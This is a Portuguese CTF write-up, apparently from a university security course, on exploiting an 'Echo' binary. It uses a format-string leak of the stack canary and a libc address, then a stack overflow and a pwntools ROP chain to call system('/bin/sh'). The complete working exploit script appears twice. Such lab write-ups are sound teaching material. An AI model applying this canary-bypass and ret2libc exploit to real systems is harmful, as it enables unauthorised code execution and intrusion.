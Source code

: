 # Echo

### Vulnerabilidade 

Primeiramente, notou-se que através da string pedida como nome input se podia descobrir informações importantes sobre o sistema, através de um ataque format string.

Numa segunda instância percebeu-se que se podia provocar um buffer overflowm visto o array da string de nome, de tamanho 20 bytes, estar a ser lida como se tivesse 100 bytes. 

Estas duas vulnerabilidades são a base do exploit.

Por fim, notou-se também que o programa tinha todas as proteções ativadas tornando vários tipos de ataques inviáveis ou consideravelmente mais difíceis de pôr em prática como ASLR e o caso de canários para dificultar buffer overflow, por exemplo.

### Exploit

Primeiro, convém criar uma função para nos ajudar no input para o servidor, uma vez que apenas podemos explorar o nome que enviámos, sendo útil ter uma função para tal.

```python
def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans
```

Começando agora propriamente a tratar do exploit, para facilitar o teste do nosso ataque procurou-se desativar a **ASLR** (Address space layout randomization) localmente para tornar mais percéptivel algumas associações e também permitir confirmar a nossa linha de pensamento.

Uma vez que os buffers são colocados junto ao canário suspeitá-mos que o oitavo argumento da stack seria um canário ...
![imagem.png](./ECHO1.png)

Uma vez que não tinhamos a certeza absoluta se o oitavo argumento seria ou não o canário, decidimos correr o programa duas vezes e verificar se o argumento mudava... (Isto só é possível pelo facto de termos desligado o ASLR.)

![imagem.png](./imagem.png)
![imagem-1.png](./imagem-1.png)

Uma vez que entre o canário e o return address temos o caller's save e o caller's ebp, pelo que o o return address estará no 11º argumento.

Temos os argumentos 8 e 11:

![imagem-2.png](./imagem-2.png)
![imagem-3.png](./imagem-3.png)

Sabendo que esse argumento pertence a uma intrução da **__libc_start_main** procurou-se descobrir o offset desta para a base da libc:

![imagem-4.png](./imagem-4.png)

![imagem-5.png](./imagem-5.png)

Ao fazer o mesmo para o endereço de __libc_start_main + 245, desta vez dentro do gdb, apercebemo-nos que o offset entre as duas intruções é de - 71 (decimal), sendo este importante para que consigámos dar uso a uma biblioteca auxiliar.

**Nota:** A conta do offset varia conforme a biblioteca que se têm instalada

O endereço base será então:
> 0xf7debee5 - libc.symbols["__libc_start_main"] + 71

Assim sendo, até o seguinte python script:

```python
from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
print(int(sms1.split(b'.')[0], 16))
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

``` 

Tendo acesso ao endereço base podemos agora alterar o endereço de retorno da frame atual por uma função da nossa escolha.
Neste caso chamaremos a função **system()** com o argumento da shell. 

Ou seja, escrevemos o endereço de retorno, deixámos 4 bytes (por causa do esp, slide 13 da semana 5) e depois colocámos o endereço do /bin/sh. 
Felizmente já existe uma biblioteca que nos trata de todo este processo de **ROP** (Return Oriented Programming).

```python
# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()
```

Notou-se ainda que o canário tem um byte nulo (ver que na imagem acima que o canário acaba(começa) com \0), o que parece ser um impedimento para a escrita, porém, se somarmos um valor pequeno ao último byte do canário conseguimos ultrapassá-lo sem sermos detetados. Tal só acontece porque a deteção de integridade do canário só é feita ao sair da função main.
Podemos assim, numa escrita subsequente, repor o canário para o estado original.

Assim sendo temos:
```python
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())
# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)
```

Para repôr o estado do canário basta utilizar:

```python
r = message(p, b"." * 19)
```

Agora basta correr o programa e sair dele, usando a opção "q".

![imagem-6.png](./imagem-6.png)

Aqui encontra-se o python script finalizado e que foi utilizado para adquirir a flag:

```python

from pwn import *

elf = ELF("program")
LOCAL = False

if LOCAL:
   libc = elf.libc
   p = elf.process()
else:
   libc = ELF("libc.so.6")
   p = remote("ctf-fsi.fe.up.pt", 4002)

ropExec = ROP(elf)

def message(p, sms):
   p.recvuntil(b">")
   p.sendline(b"e")
   p.recvuntil(b"Insert your name (max 20 chars): ")
   p.sendline(sms)
   ans = p.recvline()
   p.recvuntil(b"Insert your message: ")
   p.sendline(b"")
   return ans

buffOffset = 20

sms1 = message(p, b"%8$x.%11$x")
canary, putsAddress = [int(val,16) for val in sms1.split(b'.')]

libc.address = putsAddress - libc.symbols["__libc_start_main"] + 71 # offset para base

# Execute system
ropLib = ROP(libc)
ropLib.system(next(libc.search(b"/bin/sh")))
ropLib.exit()

# Canário termina com /0 ?? No problemo
payload = flat(b"a" * buffOffset,canary + 2, b"A"*8, ropLib.chain())

# payload = flat(b"a" * buffOffset,canary + 1, b"A"*8, libc.symbols["system"], b"A"*4, next(libc.search(b"/bin/sh")))

res = message(p, payload)

r = message(p, b"." * 19)

p.interactive()


```






